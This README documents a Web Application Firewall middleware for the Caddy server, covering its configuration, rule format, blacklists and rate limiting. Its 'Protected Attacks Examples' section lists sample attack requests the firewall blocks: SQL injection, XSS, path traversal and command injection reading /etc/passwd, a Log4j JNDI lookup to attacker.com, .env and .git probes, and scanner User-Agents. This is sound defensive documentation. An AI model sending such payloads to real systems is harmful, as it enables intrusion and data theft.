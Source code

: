 # Caddy WAF Middleware

A Web Application Firewall (WAF) middleware for Caddy server with rule-based filtering, blacklisting, and rate limiting.

## Features
- Rule-based request filtering with regex patterns
- IP and DNS blacklisting
- Rate limiting per IP address
- Request inspection (URL, args, body, headers)
- Protection against common attacks (SQL injection, XSS, RCE, etc.)
- Detailed logging support

## Installation

```bash
xcaddy build --with github.com/fabriziosalmi/caddy-waf
```

## Configuration

Basic Caddyfile setup:

```caddyfile
{
    auto_https off
    admin off
    debug   # Enable debug mode for better logging
}

:8080 {
    log {
        output stdout
        format console
        level DEBUG
    }

    route {
        waf {
            rate_limit 100 5s  
            rule_file rules.json
            log_all
            ip_blacklist_file ip_blacklist.txt
            dns_blacklist_file dns_blacklist.txt
        }

        respond "Hello, world!" 200
    }
}
```

### Protected Attacks Examples

The WAF protects against various attacks. Here are examples that would be blocked:

#### SQL Injection
```http
# Blocked: Basic SELECT injection
GET /?id=1 SELECT * FROM users

# Blocked: UNION-based injection
GET /?id=1 UNION SELECT username,password FROM users

# Blocked: Time-based injection
GET /?id=1' AND SLEEP(5)--
```

#### Cross-Site Scripting (XSS)
```http
# Blocked: Basic script injection
GET /?input=<script>alert(1)</script>

# Blocked: Event handler injection
GET /?input=<img onerror=alert(1) src=x>

# Blocked: SVG-based XSS
GET /?input=<svg/onload=alert(1)>
```

#### Path Traversal
```http
# Blocked: Directory traversal
GET /../../etc/passwd

# Blocked: Encoded traversal
GET /%2e%2e%2f/etc/passwd

# Blocked: Double-encoded traversal
GET /%252e%252e%252f/etc/passwd
```

#### Remote Code Execution
```http
# Blocked: Command injection
GET /?cmd=;ls;

# Blocked: Shell command
GET /?input=`cat /etc/passwd`

# Blocked: System command execution
GET /?input=$(ls -la)
```

#### Log4j Attacks
```http
# Blocked: JNDI lookup
GET /?x=${jndi:ldap://attacker.com/a}

# Blocked: Nested expression
GET /?x=${${::-j}${::-n}${::-d}${::-i}}
```

#### Protocol Attacks
```http
# Blocked: Git repository access
GET /.git/config

# Blocked: Environment file access
GET /.env

# Blocked: Apache configuration
GET /.htaccess
```

#### Scanner Detection
```http
# Blocked: Common scanner User-Agents
User-Agent: sqlmap/1.4.7
User-Agent: nikto/2.1.6
User-Agent: nmap/7.80
```

### Configuration Options

- `rule_file`: JSON file containing WAF rules
- `ip_blacklist_file`: File with blocked IPs/CIDR ranges
- `dns_blacklist_file`: File with blocked domains
- `rate_limit <requests> <window>`: Rate limiting (e.g., "100 1m" for 100 requests per minute)
- `log_all`: Enable detailed logging
- `anomaly_threshold`: Cumulative score threshold (default: 5)

### Rules Format (rules.json)

```json
[
    {
        "id": "sql_injection",
        "phase": 2,
        "pattern": "(?i)select.*from",
        "targets": ["ARGS", "BODY"],
        "severity": "HIGH",
        "action": "block",
        "score": 3
    }
]
```

### Blacklist Formats
- `ip_blacklist.txt`: One IP/CIDR per line
- `dns_blacklist.txt`: One domain per line

## Rate Limiting

Rate limiting is configured with two parameters:
- Number of requests allowed
- Time window

Example configurations:
```caddyfile
# 100 requests per minute
rate_limit 100 1m

# 10 requests per second
rate_limit 10 1s

# 1000 requests per hour
rate_limit 1000 1h
```

Exceeding the rate limit returns HTTP 429 (Too Many Requests).

## Testing

Test rate limiting:
```bash
# Test 5 requests per 5 seconds limit
for i in {1..6}; do curl -i http://localhost:8080/; done

# Load test
ab -n 100 -c 10 http://localhost:8080/
```

## License

AGPLv3
